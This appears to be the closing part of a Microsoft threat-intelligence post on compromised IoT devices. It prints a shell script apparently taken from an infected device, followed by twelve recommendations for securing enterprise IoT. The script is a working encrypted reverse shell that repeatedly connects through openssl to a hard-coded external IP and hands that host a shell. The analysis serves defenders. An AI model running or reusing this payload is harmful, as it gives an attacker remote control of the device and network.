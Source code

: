 



`--contents of`_`[IOT Device]`_` file--

#!/bin/sh
export `_`[IOT Device]` _`` ="-qws -display :1 -nomouse" echo 1|tee /tmp/.c;sh -c '(until (sh -c "openssl s_client -quiet -host 167.114.153.55 -port 443 |while : ; do sh && break; done| openssl s_client -quiet -host 167.114.153.55 -port 443"); do (sleep 10 && cn=$(( `cat /tmp/.c`+1)) && echo $cn|tee /tmp.c && if [ $cn -ge 30 ]; then (rm /tmp/.c;pkill -f 'openssl'); fi);done)&' &

--end contents of file--``





# Recommendations for Securing Enterprise IoT





There are additional steps an organization can take to protect their infrastructure and network from similar activity. Microsoft recommends the following actions to better secure and manage risk associated with IoT devices:





1. Require approval and cataloging of any IoT devices running in your corporate environment.
2. Develop a custom security policy for each IoT device.
3. Avoid exposing IoT devices directly to the internet or create custom access controls to limit exposure.
4. Use a separate network for IoT devices if feasible.
5. Conduct routine configuration/patch audits against deployed IoT devices.
6. Define policies for isolation of IoT devices, preservation of device data, ability to maintain logs of device traffic, and capture of device images for forensic investigation.
7. Include IoT device configuration weaknesses or IoT-based intrusion scenarios as part of Red Team testing.
8. Monitor IoT device activity for abnormal behavior (e.g. a printer browsing SharePoint sites…).
9. Audit any identities and credentials that have authorized access to IoT devices, users and processes.
10. Centralize asset/configuration/patch management if feasible.
11. If your devices are deployed/managed by a 3rd party, include explicit Terms in your contracts detailing security practices to be followed and Audits that report security status and health of all managed devices.
12. Where possible, define SLA Terms in IoT device vendor contracts that set a mutually acceptable window for investigative response and forensic analysis to any compromise involving their product.





_This case is one of several examples that _[_Eric Doerr will present at Black Hat_](https://www.blackhat.com/us-19/briefings/schedule/#the-enemy-within-modern-supply-chain-attacks-16241)_, on August 8, 2019, where Microsoft is calling for greater industry transparency to ensure that defenders are best equipped to respond to threats from well-resourced adversaries._





_Microsoft Threat Intelligence Center (MSTIC)_


